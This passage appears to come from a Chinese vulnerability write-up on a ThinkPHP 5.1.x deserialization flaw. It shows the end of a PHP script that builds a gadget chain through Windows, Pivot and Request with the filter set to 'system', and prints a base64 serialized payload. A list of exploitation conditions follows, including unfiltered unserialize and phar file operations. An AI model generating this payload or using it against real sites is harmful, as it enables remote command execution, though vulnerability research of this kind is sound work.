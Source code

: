 ```php
        // 表单ajax伪装变量
        'var_ajax'         ='_ajax',
        // 表单pjax伪装变量
        'var_pjax'         ='_pjax',
        // PATHINFO变量名 用于兼容模式
        'var_pathinfo'     ='s',
        // 兼容PATH_INFO获取
        'pathinfo_fetch'   =['ORIG_PATH_INFO', 'REDIRECT_PATH_INFO', 'REDIRECT_URL'],
        // 默认全局过滤方法 用逗号分隔多个
        'default_filter'   ='',
        // 域名根，如thinkphp.cn
        'url_domain_root'  ='',
        // HTTPS代理标识
        'https_agent_name' ='',
        // IP代理获取标识
        'http_agent_ip'    ='HTTP_X_REAL_IP',
        // URL伪静态后缀
        'url_html_suffix'  ='html',
    ];
    function __construct(){
        $this->filter = "system";
        $this->config = ['var_pjax' =''];
        $this->hook = ['visible' =[$this,'isPjax']];
    }
}
namespace think\process\pipes;
use think\model\Pivot;

class Windows{
    private $files = [];
    public function __construct(){
        $this->files = [new Pivot()];
    }
}

namespace think\model;
use think\Model;

class Pivot extends Model{
}

use think\process\pipes\Windows;
echo base64_encode(serialize(new Windows()));
?>
```

<img src="https://pic.imgdb.cn/item/61227c6e44eaada739f8c422.png" alt="">


## 漏洞利用条件
- 使用的 ThinkPHP 5.1.X 框架的程序中满足以下任意条件:
1. 未经过滤直接使用反序列化操作
2. 可以文件上传且文件操作函数的参数可控，且:、/、phar等特殊字符没有被过滤